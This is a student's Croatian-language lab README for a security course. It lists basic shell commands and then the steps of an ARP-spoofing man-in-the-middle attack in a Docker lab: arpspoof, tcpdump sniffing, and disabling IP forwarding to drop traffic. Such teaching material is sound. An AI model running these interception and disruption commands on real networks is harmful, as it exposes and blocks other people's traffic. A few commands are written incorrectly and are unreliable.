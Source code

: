 # SRP Lab1

### Pomoćne komande

wsl - Windows Subsystem for Linux

pwd - pokazuje file path foldera u kojem se trenutno nalazimo

cd [ime foldera] - mijenja folder u kojem se nalazimo

mkdir [ime foldera] - stvara novi folder

dir - izlistava sadržaj foldera

uname - ime operativnog sustava

hostname - pokazuje gdje se trenutno nalazimo s terminalom

### ARP spoofing

git clone [https://github.com/mcagalj/SRP-2021-22](https://github.com/mcagalj/SRP-2021-22) - kloniranje repozitorija sa githuba u trenutni folder

./start.sh - pokretanje docker containera

./stop.sh - zaustavljanje dockera

docker ps - ispis pokrenutih containera

docker ps exec -it sh - pokretanje interaktivnog shella u station-1

ipconfig -a - ispis ip i ethernet adresa

ping station-2 - pingamo ovaj container kao dokaz da je na istoj mreži kao station-1

netcat -l -p 9000 - na containeru station-1 pomoću netcata otvaramo TCP na portu 9000

netcat station-2 9000 - veza između 2 stationa, "sluša" na portu 9000, narušavanje integriteta

tcpdump - "sluša" na ethernetu

arpspoof - alat za spoofanje (-t target, -r host)

arpspoof -t station-1 station-2 - varamo station-1, predstavljamo se kao station-2, ovo radi evil-station, preko tcpdump sada vidimo promet, narušena povjerljivost

tcpdump -X host station-1 and not arp - filter prometa

echo 0 > /proc/sys/net/ipv4/ip_forward - naredba evil-station-u da ne prosljeđuje poruke nakon presretanja, narušena dostupnost